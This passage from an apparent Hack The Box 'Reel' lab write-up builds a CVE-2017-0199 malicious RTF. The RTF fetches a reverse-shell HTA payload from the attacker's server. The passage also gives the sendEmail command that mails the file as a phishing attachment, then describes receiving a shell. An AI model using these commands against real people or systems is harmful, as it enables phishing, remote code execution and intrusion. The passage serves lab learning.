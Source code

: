 Now, let's create a malicious file that will grab and launch our reverse shell payload from the Python server when it is accessed from a different user:

`python2 CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.36/msfv.hta -t rtf -x 0`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-9.png)

Now assuming `nico@megabank.com` is the user who will access the emailed file, let's send a email to **nico** attaching the malicious document:

`sendEmail -f jadu@megabank.com -t nico@megabank.com -u "Urgent!" -m "You just got hacked" -a invoice.rtf -s 10.10.10.77 -v`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-10.png)

In a little bit, we can see that **nico** accessing the sent document and the document grabbing malicious payload from our Python server:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-11.png)

After the document grabs the payload, it is executed, and we get a shell as **nico**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-12.png)
